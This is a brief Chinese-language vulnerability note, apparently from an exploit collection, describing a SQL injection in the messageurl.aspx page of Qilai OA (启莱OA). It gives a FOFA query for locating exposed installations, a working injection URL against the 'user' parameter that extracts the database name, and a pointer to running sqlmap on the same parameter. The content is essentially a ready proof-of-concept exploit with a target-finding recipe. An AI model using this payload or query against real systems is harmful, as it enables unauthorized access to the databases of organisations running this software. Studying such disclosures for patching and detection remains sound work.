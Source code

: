 # 启莱OA-messageurl.aspx-SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](启莱OA-messageurl.aspx-SQL注入漏洞.assets/162736354319684.jpg)

存在SQL注入的文件为 messageurl.aspx

```
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![](启莱OA-messageurl.aspx-SQL注入漏洞.assets/16273635435887759.jpg)

使用SQLmap对参数 user 进行注入

![](启莱OA-messageurl.aspx-SQL注入漏洞.assets/1627363543884639.jpg)